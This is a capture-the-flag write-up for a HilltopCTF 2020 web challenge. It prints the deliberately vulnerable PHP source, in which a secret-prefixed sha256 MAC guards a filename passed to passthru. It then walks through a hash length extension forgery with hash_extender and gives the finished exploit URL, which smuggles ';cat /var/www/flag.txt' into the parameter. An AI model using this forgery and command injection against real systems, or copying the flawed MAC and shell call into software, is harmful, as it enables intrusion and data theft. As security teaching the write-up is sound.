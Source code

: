 ```yaml
---
title: What Is The Deadly Bug Here?
layout: post
competition: hilltopctf2020
---
```

## Description


![c9fd42053c1860b5e8adc479279ffeef.png](../../_resources/ec6165ad18424803876d01a024adcda0.png)


## Solving

Given a simple website that looks like this.

![0956ba0662dbb4f93d2dcaa8e8f2527a.png](../../_resources/1f07699a5c3a4904a02dc7d34bc68f56.png)

Examining the response of the request, we could found some interesting headers.

![662190ad5e6f3fa71a40cf56ef3f4240.png](../../_resources/64d64912595a4428b87bab10e38b0aeb.png)


Sending the `?debug` parameter to the website showed us the source code of the challenge. 

```
<?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```

There is some interesting information that we can get by statically analyzing the source code. Here are them:
1. `$greet` variable is supposed to contain a name of a file; and we can control the value as this line of code shows:
    ```
    if (isset($_GET['greet'])) $greet = $_GET['greet'];
    ```
2. If you get the reference, this challenge is based on [this](https://www.youtube.com/watch?v=MpeaSNERwQA) video on Youtube by LiveOverflow. `hash_hmac` function in that video is more or less the same with `patched` function in this challenge, but supplying an array into the function would not work anymore because of this line of code:
    ```
    if (is_string($string)) {
        ...
    }
    ```
    Anyway, if you don't understand what I'm talking about, please watch the video, it's all there :).
3. The `patched` function validates our input and returns a message-digested hash value from the input. The difference between this and the function in [that](https://www.youtube.com/watch?v=MpeaSNERwQA) video is: with the intention of patching (or should I say securing) the application, this challenge uses `hash` function instead of `hash_hmac` function to generate the hash value. By doing that, the application is potentially vulnerable to *Hash Length Extension Attack*. We'll come back to this very soon.
4. This line of code:
    ```
    $greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);
    ```
    basically strips out every special character from the `$greet` variable.
5. If the `mac` we provide (`$_GET['mac'`) is not equals to the generated `mac` value, the application is terminated. So we need to make sure that both are the same.
6. Finally, this line of code:
    ```
    echo passthru("cat $greet 2>&1", $err);
    ```
    is how we are gonna get the flag. The `$greet` variable, which we can control, will be passed into `passthru` function; which will then be executed as a shell command.

*Hash Length Extension Attack* is a type of attack where an attacker can use a computed hash (Hash(*message1*)) and the length of the message (message1*) to calculate another hash (Hash(*message1* || *message2*)) for an attacker-controlled message (message2). An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data (read more [here](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)).

This challenge gives us a hash value and it's original data by sending the `X-MY-GREET` and `X-MY-GREET-MAC` header on the response. Thus, without knowing the secret, we can generate a valid hash for `secret + greet.txt + <arbitrary evil data>` without knowing the value of the prepended secret. We can use *bash command separation* to execute arbitrary command after reading the value of `greet.txt`. Simply put, this would be the payload we want to be passed to the `passthru` function:
```
echo greet.txt;cat /var/www/flag.txt 2>&1
```

The location of the flag can be found on the hint published for this challenge.

There are many tools out there, but for this writeup, [this](https://github.com/iagox86/hash_extender) tool from Ron Bowes will help us doing the *Length Extension Attack*. And here's how we used them:
```
hash_extender -d 'aboutme.txt' -s cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c -a ';cat /var/www/flag.txt' -f sha256 -l 25 --out-data-format=html
```
From the manual:
`-d` is the original string that we're going to extend
`-s` is the original signature or the hash value of the original string
`-a` is the data that we want to append to the original string
`-f` is the hash algorithm
`-l` is the length of the secret, which is leaked when we visit `secret.php` page

![5fb70b6dbb0ed2b07a53175556086711.png](../../_resources/2d86a44f5e294cadbda6a4d893b1b275.png)

Then we get our new hash and new message.
```
New signature: 3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c
New string: aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt

```

![98365288a99edd441e4e4743df0298b5.png](../../_resources/e49e327073c740f7a2194e00ef28c372.png)

Don't worry about the null bytes in the new message, because fortunately the challenge used `filter_var` and those null bytes will be stripped before being passed into `passthru` function.

Send the hash and the message to the application like this:
```
http://192.81.210.234:10002/?mac=3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c&greet=aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt
```

And there's the flag.



![44cba8a2af6184dd0fe48900c4f53949.png](../../_resources/3d59ab4e510d4dad9a613a30c21e5100.png)



## The Flag
Flag is **HilltopCTF{uh...1think_1mad3_itwors3_s00wy}**